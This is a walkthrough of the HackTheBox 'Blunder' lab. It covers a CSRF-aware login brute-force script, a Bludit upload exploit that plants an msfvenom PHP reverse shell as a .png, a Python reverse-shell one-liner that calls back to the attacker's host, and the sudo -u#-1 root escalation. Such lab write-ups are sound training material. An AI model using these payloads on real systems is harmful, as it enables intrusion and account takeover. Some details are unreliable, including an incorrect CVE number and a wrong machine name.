







# Blunder

[This room](https://app.hackthebox.eu/machines/254) on HackTheBox is categorized as Easy but as a beginner I still found it to be a bit tricky as there were many things that I had not experienced before. But with some guidance at a few tricky spots from others I was able to solve the machine in just a few hours.

So, let's begin!

### Enumeration

Blunder sits at IP address: 10.10.10.191. So, the first thing that we can do is run an `nmap` scan against the IP address to check all the ports that are open over there.

```
┌─[tester@parrot-virtual]─[~/Downloads/blunder]
└──╼ $nmap -A 10.10.10.191
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-17 08:30 IST
Nmap scan report for 10.10.10.191
Host is up (0.15s latency).
Not shown: 998 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.08 seconds
```

It can be see that there is only one port open and that is port 80 which is running Apache server, indicating that we can access the content hosted on it via web browser.


It looks like this is someone's personal blog where they upload their articles. We can start a directory traversal attack and meanwhile go through the source-code of all the pages on the website.

We can't find any useful information from the source-code of any of the pages. So, the only option that we are left with is the result from directory traversal.



From dirbuster scan results, we can definitely visit two pages namely `robots.txt` and `todo.txt` along with the directory `admin`. 

On `robots.txt`, we don't find any details but on `todo.txt` we can find a note.

 

So, now we have a suspected username `fergus`. We can move on and check the directory `admin`.



We can find a login page at `/admin`. Where we can try some basic SQLi attack along with default login credentials but none of them work. We can even try some common passwords with the username `fergus` but even they won't work. We can also check it's source-code in order to check for some information disclosure. 



Here, we don't find any useful hint but can see that this login page uses [CSRF Token](https://portswigger.net/web-security/csrf/tokens) which are used as method to avoid login bruteforce attacks. With every new request a new token is generated and this needs to be submitted along with login credentials while performing a login. So, if we plan to bruteforce the credentials we need to figure out a method that along with the changing credentials we are sending the correct CRSF token with every login attempt else we won't be able to find the correct login credentials.

### Initial Foothold

From the login page, we get one hint and that is the term `BLUDIT`. We can try to look for it on google to see if it some known service and even try to look for some associated vulnerability.

The first result from google that we get is [`Bludit Directory Traversal `](https://www.exploit-db.com/exploits/48701) exploit on ExploitDB. We can download the code, make necessary changes and try to it. But before that we can see that to execute the script properly we need a username and password along with the target URL.



We do have one suspected username `fergus` but no associated password. Even in the articles we don't find any suspected password and there are no other hidden pages as well. We can try to get a list of words from the webpage using `cewl` and then try to use those words as password for logging in. We can run `cewl` as:

```
┌─[tester@parrot-virtual]─[~/Downloads/blunder]
└──╼ $cewl http://10.10.10.191:80 -w words
```

This will create a list of words obtained from the webpage. With this the output is written in the file `words`. Now, we can use this list along with the username `fergus` to bruteforce the login. But the issue is CSRF token. And to avoid that we need to make a python script which will read the token and pass is in the subsequent request along with the updated password value.

```
import requests
import re

url='http://10.10.10.191'
path = '/admin/login'
username = 'fergus'

wordlist = open('words', 'r')
words = wordlist.readlines()

for password in words:
	session = requests.session()
	login_page = session.get(url+path)
	csrf_token = re.search('name="tokenCSRF" value="(.*)"', login_page.text).group(1)
	print ("Trying Password: ", password)
	print ("CSRF Token:", csrf_token) 

	data = {
		'tokenCSRF': csrf_token,
		'username': username,
		'password': password.strip(),
		'save':''
	}

	login_return = session.post(url+path, data = data, allow_redirects = False)

	print (login_return)
	if ('incorrect' not in login_return.text):
		# print (login_return.text)
		print ("Success!")
		print ('Use username: fergus and password: ', password)
		break
```

The script is working as:

1. Open the wordlist named `words` and read it's content.
2. Run a loop for all the words in the wordlist.
3. In the loop, we are doing the following:
   * Request the login page to obtain the new CSRF token.
   * Create a custom list of value in variable `data` that are to be sent to the login page.
   * Send the `data` to the login page through a `POST` request and disable redirects.
   * Check the response of `POST` request for the keyword 'incorrect'. This will help us to stop the loop when correct credentials are found because when we would have logged in there won't be the string 'username or password incorrect' present in the response.

P.S. I used burpsuite to check all the parameters that were being sent to the login page with every request and on the basis of that created the values in `data`. 

With this, we get the correct password as well which we can try by logging in.



Now that we have the correct username and password, we can use the directory traversal exploit that we had downloaded earlier by making the correct changes to it.



On reading the script further, we can see that we need to create two more files which are `evil.png` and `.htaccess`. Lucking the commands to create those files are also given, so we can use those commands to create the required payloads.

```
┌─[✗]─[tester@parrot-virtual]─[~/Downloads/blunder]
└──╼ $msfvenom -p php/reverse_php LHOST=<your_ip> LPORT=4242 -f raw -b '"' > evil.png
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 2 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 4098 (iteration=0)
php/base64 chosen with final size 4098
Payload size: 4098 bytes
┌─[tester@parrot-virtual]─[~/Downloads/blunder]
└──╼ $echo -e "<?php $(cat evil.png)" > evil.png 
┌─[tester@parrot-virtual]─[~/Downloads/blunder]
└──╼ $echo "RewriteEngine off" > .htaccess
┌─[tester@parrot-virtual]─[~/Downloads/blunder]
└──╼ $echo "AddType application/x-httpd-php .png" >> .htaccess
```

Now, we can again try to run the script.

```
┌─[tester@parrot-virtual]─[~/Downloads/blunder]
└──╼ $python3 48701.py 
cookie: pnrnpfrisepfdgf7vqatk16rs6
csrf_token: a89c392f2d98cf3cebda6f026bd69f4a29fbde41
Uploading payload: evil.png
Uploading payload: .htaccess
```

In the script, it is written that the payload uploaded can be accessed at `url + /bl-content/tmp/temp/evil.png`. But before visiting that page, we need to start a listener on port 4242 (In the script it is port 53 but I changed it to 4242).

```
┌─[tester@parrot-virtual]─[~/Desktop/GitHub/Writeups/HackTheBox/Easy/blunder]
└──╼ $nc -nvlp 4242
listening on [any] 4242 ...
connect to [<your_ip>] from (UNKNOWN) [10.10.10.191] 57072
```

We can see that we are logged in as `www-data` using the command `whoami`. On exploring the directories, we find out that there are two users on the machine `hugo` and `shaun`. And `hugo`'s directory contains the `user.txt` file which is not accessible to us. Also, we can't see the output for `sudo -l`. The next thing we can look for is `/etc/crontab`.

```
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

But even her, we don't find anything useful. We can try to look for the files that we can access using the `find` command:

```
find / -user www-data 2> /dev/null

/var/www/bludit-3.10.0a
```

The command returns a lot for files and directories but the most important one appears to be: `/var/www/bludit-3.10.0a`. So, we can start enumerating the files present in this directory and see if we can find something useful.

After going through multiple files in the mentioned directory. We can find credentials for user `Hugo` in the file: `/var/www/bludit-3.10.0a/bl-content/databases/users.php`

```
pwd
/var/www/bludit-3.10.0a/bl-content/databases
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "*****************************************",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

We can use this password hash and head over to [CrackStation](https://crackstation.net/) to get the password. 

Even though now that we have the credentials for user 'Hugo', we can't switch user because we don't have a stable shell. To convert this unstable shell to a stable one we can try commands like:

```
1. python -c ‘import pty;pty.spawn(“/bin/bash”)’
2. echo os.system('/bin/bash')
```

But none of these works. We can try to create a custom payload using `msfvenom`, send it to the target machine and execute it as:

```
msfvenom -p linux/x64/shell_reverse_tcp RHOST=<your_ip> LPORT=443 -f elf > shell.elf
```

And this payload to the target machine by starting a `python3 -m http.server` on our attacking machine and using `wget` on the target machine. Once, the file is downloaded we can change it's permissions to executable and run it. But even this does not work.

Finally, I had some help from [Gray-0men](https://github.com/Gray-0men), who suggested me to start a python reverse shell from the unstable shell using the payload:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.x.x",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

We can now start another listener on port 443 using the command `nc -nvlp 443` and run the above command with our attacking machine's IP address on the target machine:

On target machine's previously obtained shell:

```
┌─[tester@parrot-virtual]─[~/Desktop/GitHub/Writeups/HackTheBox/Easy/blunder]
└──╼ $nc -nvlp 4242
listening on [any] 4242 ...
connect to [10.10.14.237] from (UNKNOWN) [10.10.10.191] 59284
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your-ip>",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

On attacking machine:

```
┌─[✗]─[tester@parrot-virtual]─[~/Downloads/cyberhacktics]
└──╼ $sudo nc -nvlp 443
[sudo] password for tester: 
listening on [any] 443 ...
connect to [10.10.14.237] from (UNKNOWN) [10.10.10.191] 53498
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ whoami
whoami
www-data
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ pwd
pwd
/var/www/bludit-3.9.2/bl-content/tmp/temp
```

We can now switch the user to 'Hugo' as:

```
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ su hugo           
su hugo
Password: 

hugo@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ cd /home/hugo
cd /home/hugo
hugo@blunder:~$ cat user.txt
cat user.txt
```

And there we get the user flag.

### Privilege Escalation

We can now run the command `sudo -l` to check the commands that 'hugo' can run with `sudo` privilege:

```
hugo@blunder:~$ sudo -l
sudo -l
Password: 

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

Now the entry `(ALL, !root) /bin/bash` gives a direct hint towards the vulnerability [CVE-2019-4287](https://www.exploit-db.com/exploits/47502) which can be simply exploited as:

```
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
Password: 

root@blunder:/home/hugo# cat /root/root.txt
cat /root/root.txt
```

By exploiting this simple vulnerability we get root access and can read the flag as well!

With this, we pwned the Blender machine!


## Some Key Points to Take Away

1. When you have access to some articles try using `cewl` to obtain a list of words and use them to bruteforce login.
2. If you are not able to make an unstable shell stable, try to get another reverse shell from the unstable shell.


## Links Referred

1. HackTheBox-Blunder: https://www.hackthebox.eu/home/machines/profile/254
2. Bludit Directory Traversal Attack: https://www.exploit-db.com/exploits/48701
3. CrackStation: https://crackstation.net/
4. Gray-0men: https://github.com/Gray-0men
5. CVE-2019-4287: https://www.exploit-db.com/exploits/47502
